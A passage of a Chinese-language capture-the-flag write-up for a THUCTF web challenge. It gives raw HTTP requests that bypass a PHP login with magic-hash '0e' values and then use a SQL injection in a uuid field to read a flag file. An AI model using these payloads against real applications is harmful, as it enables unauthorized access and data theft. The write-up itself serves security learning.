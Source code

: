 这个我比较熟

### What is $? - flag1

利用_REQUEST和0E开头的字符串 `==` 结果为 `True` 绕过登录

```http
POST /code.php?action=1 HTTP/1.1
Host: nc.thuctf.redbud.info:30875
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://nc.thuctf.redbud.info:30875/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 61

action=login&cb_user=admin&cb_pass=QNKCDZO&cb_salt=s878926199
```

### What is $? - flag2

SQL注入 (利用正则\S)

```http
POST /code.php?action=1 HTTP/1.1
Host: nc.thuctf.redbud.info:30875
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://nc.thuctf.redbud.info:30875/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 83
Cookie: PHPSESSID=9195ee355659ed5283df194732619080

action=save_item&item[name]=a&item[uuid]=00000000-000000000'%2c'lib%2fflag.php')%23
```

然后GET拿flag (但是我还是POST的)

```http
POST /code.php?action=1 HTTP/1.1
Host: nc.thuctf.redbud.info:30875
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://nc.thuctf.redbud.info:30875/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Cookie: PHPSESSID=9195ee355659ed5283df194732619080

action=list_item
```